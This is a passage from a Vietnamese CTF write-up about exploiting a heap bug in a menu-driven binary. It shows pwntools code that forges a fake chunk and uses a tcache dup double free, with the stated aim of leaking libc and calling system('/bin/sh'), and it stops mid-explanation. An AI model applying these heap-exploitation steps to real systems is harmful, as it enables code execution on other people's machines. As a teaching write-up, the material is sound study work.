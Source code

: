 2, Free chunk (tối đa 8 lần free).  
3, In ra tên của user (được lưu trong `name`).

```cpp
ssize_t info() {
  printf("Name :");
  return write(1, &name, 0x20uLL);
}
```

4, Thoát chương trình (Dùng exit).

### Một vài nhận xét
+ Ở chức năng thứ nhất, size có kiểu **unsigned**, như vậy khi ta cho size nhỏ hơn 16 thì sẽ gây ra tràn heap.
+ Ở chức năng thứ hai, chương trình không set null sau khi đã free con trỏ, sử dụng để gây lỗi double free.
+ Sẽ cần phải leak được libc base để gọi `system('/bin/sh')`, mà chức năng duy nhất có thể in gì đó ra màn hình là chức năng số 3, in tên user. Bằng cách tạo một chunk giả mạo tại vị trí của biến `name` rồi làm cho nó lọt vào **unsorted bin** (tận dụng tràn heap), khi đó con trỏ **fd** và **bk** của chunk sẽ trỏ tới `main_arena + 88` là địa chỉ nằm trong libc, chính xác là thứ ta cần. 

## Khai thác
Dựa vào những điều nêu trên, các bước khai thác bài này sẽ như sau:  
1, Tạo một chunk giả tại nơi lưu tên người dùng với size lớn hơn 0x410 để khi free nó sẽ rơi vào unsorted bin (đừng quên flag PREV_INUSE).

```python
con.sendlineafter(b'Name:', p64(0) + p64(0x501)) # Fake chunk's metadata
```

2, Sử dụng kỹ thuật [tcache dup](https://github.com/shellphish/how2heap/blob/master/obsolete/glibc_2.27/tcache_dup.c) sao cho malloc được chunk giả đã tạo. Sau đó free để nó rơi vào unsorted bin.

```python
def malloc1(size, payload):
    con.sendlineafter(b'Your choice :', b'1')
    con.sendlineafter(b'Size:', size)
    con.sendlineafter(b'Data:', payload)

def free2():
    con.sendlineafter(b'Your choice :', b'2')

malloc1(b'15', b'abcd1') # p1
free2() # tcache[0x10] = [p1]
free2() # tcache[0x10] = [p1 -> p1]
malloc1(b'15', p64(NAME_ADDR + 0x10)) # tcache[0x10] = [p1 -> name]
malloc1(b'15', b'abcd2') # tcache[0x10] = [name]
malloc1(b'15', b'abcd3') # fake chunk
free2()
```

Giai đoạn này sẽ không đơn giản vậy! Chạy thử script:
